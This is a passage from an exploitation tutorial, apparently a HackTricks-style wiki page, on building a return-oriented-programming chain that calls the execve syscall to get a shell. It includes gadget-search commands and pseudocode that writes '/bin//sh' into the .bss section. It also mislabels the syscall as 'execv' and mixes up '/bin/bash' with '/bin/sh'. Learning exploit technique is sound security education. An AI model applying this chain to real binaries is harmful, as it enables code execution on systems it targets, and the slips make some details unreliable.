 # ROP - Syscall execv

The objective is to call the **syscall \(execv\)** from a ROP controlling the value of registries: _RDI, RSI, RDX, RAX_ and obviously the _RIP_ \(the other ones doesn't matters\), and controlling somewhere to write _"/bin/sh"_

* **RDI**: Pointing to the string "/bin/bash"
* **RSI**: Null
* **RDX**: Null
* **RAX**: Value **0x3b** for x64 and **0xb** for x32, because this will call **execv**

```text
ROPgadget --binary vulnbinary | grep syscall
ROPgadget --binary vulnbinary | grep "rdi\|rsi\|rdx\|rax" | grep pop
```

## Writing

If you can somehow write to an address and then get the address of where you have written then this step is unnecessary.

Elsewhere, you may search for some **write-what-where**.  
As is explained in this tutorial: [https://failingsilently.wordpress.com/2017/12/14/rop-chain-shell/](https://failingsilently.wordpress.com/2017/12/14/rop-chain-shell/) you have to find something that allows you to save some value inside a registry and then save it to some controlled address inside another registry. For example some `pop eax; ret` , `pop edx: ret` , `mov eax, [edx]`

You can find mov gadgets doing: `ROPgadget --binary vulnbinary | grep mov`

### Finding a place to write

If you have found some **write-what-where** and can control the needed registries to call execv, there is only left finding a place to write.

```text
objdump -x vulnbinary | grep ".bss" -B1
                  CONTENTS, ALLOC, LOAD, DATA
 23 .bss          00000010  00403418  00403418  00002418  2**3
```

In this case: **0x403418**

### **Writing** _**"/bin/sh"**_

```text
buffer += address(pop_eax) # place value into EAX
buffer += "/bin"           # 4 bytes at a time
buffer += address(pop_edx)         # place value into edx
buffer += address(writable_memory)
buffer += address(writewhatwhere)

buffer += address(pop_eax)
buffer += "//sh"
buffer += address(pop_edx)
buffer += address(writable_memory + 4)
buffer += address(writewhatwhere)
```

